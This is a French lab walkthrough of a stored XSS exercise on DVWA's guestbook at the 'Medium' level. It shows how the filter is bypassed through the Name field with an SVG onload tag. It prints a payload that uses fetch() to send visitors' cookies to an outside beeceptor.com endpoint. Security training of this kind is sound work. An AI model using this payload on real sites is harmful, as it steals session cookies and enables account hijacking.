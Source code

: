 # Niveau "Medium"

Pas de changement sur notre guestbook :

![](../../../../.gitbook/assets/5076ad0022975412aaf350b2d4bead8d.png)

Il n'est pas possible ici d'exécuter une popup `alert()` simplement. En effet, les balises `<script>` `</script>` semblent être filtrées et le champ "Message" semble également échapper le caractère `"""` \(et donc sans doute également le caractère `"'"`\) :

![](../../../../.gitbook/assets/c7e438ccbf248c8c155dcf0f1fdfc9b5.png)

Nous allons nous concentrer sur le champ "Name" étant donné qu'il semble être plus permissif. On tente tout d'abord de passer par une autre balise afin d'exécuter notre javascript :

![](../../../../.gitbook/assets/409fda59350b4afebe9c56e088498d79.png)

Cela fonctionne. Il nous reste plus qu'à étoffer notre payload afin de récupérer les cookies des visiteurs :

```markup
<svg onload="fetch('https://dvwaxssrefl.free.beeceptor.com?cookie=' + document.cookie);">
```

![](../../../../.gitbook/assets/cac83dca6e4bade94123fd6517923bbc.png)

Notre attaque fonctionne, le cookie du visiteur est envoyé sur notre serveur malicieux :

![](../../../../.gitbook/assets/979b4817a9f54ad7338b9a12e0bcc474.png)

